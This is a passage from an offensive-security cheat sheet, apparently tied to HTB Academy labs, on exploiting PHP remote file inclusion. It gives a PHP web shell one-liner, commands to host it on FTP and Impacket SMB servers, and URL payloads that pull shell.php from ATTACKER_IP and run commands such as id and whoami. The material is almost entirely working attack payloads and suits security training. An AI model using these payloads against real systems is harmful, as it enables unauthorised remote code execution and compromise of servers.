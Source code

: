 ### FTP RFI Exploitation

**Basic FTP RFI:**
```bash
# Include file via FTP
http://target.com/index.php?page=ftp://ATTACKER_IP/shell.php&cmd=id

# With authentication (if required)
http://target.com/index.php?page=ftp://user:pass@ATTACKER_IP/shell.php&cmd=whoami
```

**HTB Academy FTP RFI Example:**
```bash
# Step 1: Create malicious file
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Step 2: Start FTP server
sudo python3 -m pyftpdlib -p 21 -w

# Step 3: Execute RFI via FTP
http://target.com/index.php?language=ftp://ATTACKER_IP/shell.php&cmd=ls -la
```

---

## Method 3: SMB Protocol RFI (Windows)

### SMB Server Setup

**Using Impacket SMB Server:**
```bash
# Install impacket
pip3 install impacket

# Start SMB server
sudo impacket-smbserver -smb2support share $(pwd)

# Start with authentication
sudo impacket-smbserver -smb2support -user test -password test123 share $(pwd)
```

### SMB RFI Exploitation

**Basic SMB RFI:**
```bash
# Include file via SMB (Windows targets)
http://target.com/index.php?page=\\ATTACKER_IP\share\shell.php&cmd=whoami

# Alternative syntax
http://target.com/index.php?file=//ATTACKER_IP/share/shell.php&cmd=dir
```

**Key Advantage:** SMB RFI doesn't require `allow_url_include = On` on Windows systems.
